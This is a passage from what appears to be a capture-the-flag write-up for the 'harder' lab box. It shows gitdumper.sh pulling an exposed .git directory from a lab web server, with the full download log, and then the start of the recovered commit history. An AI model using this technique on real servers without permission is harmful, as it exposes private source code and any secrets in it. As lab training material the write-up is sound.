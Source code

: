 Let's use `gitdumper.sh` from [GitTools](https://github.com/internetwache/GitTools)

~~~
unknown@kali:/data/src/GitTools/Dumper$ ./gitdumper.sh http://pwd.harder.local/.git/ /data/tmp/files
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /data/tmp/files/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/93/99abe877c92db19e7fc122d2879b470d7d6a58
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/ad/68cc6e2a786c4e671a6a00d6f7066dc1a49fc3
[+] Downloaded: objects/04/7afea4868d8b4ce8e7d6ca9eec9c82e3fe2161
[+] Downloaded: objects/e3/361e96c0a9db20541033f254df272deeb9dba7
[+] Downloaded: objects/c6/66164d58b28325393533478750410d6bbdff53
[+] Downloaded: objects/aa/938abf60c64cdb2d37d699409f77427c1b3826
[+] Downloaded: objects/cd/a7930579f48816fac740e2404903995e0ff614
[+] Downloaded: objects/22/8694f875f20080e29788d7cc3b626272107462
[+] Downloaded: objects/66/428e37f6bfaac0b42ce66106bee0a5bdf94d4e
[+] Downloaded: objects/6e/1096eae64fede71a78e54999236553b75b3b65
[+] Downloaded: objects/be/c719ffb34ca3d424bd170df5f6f37050d8a91c
~~~

The logs disclose several commits:

~~~
unknown@kali:/data/tmp/files$ git log 
commit 9399abe877c92db19e7fc122d2879b470d7d6a58 (HEAD -> master)
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 18:12:23 2019 +0300

    add gitignore

commit 047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 18:11:32 2019 +0300

    add extra security

commit ad68cc6e2a786c4e671a6a00d6f7066dc1a49fc3
~~~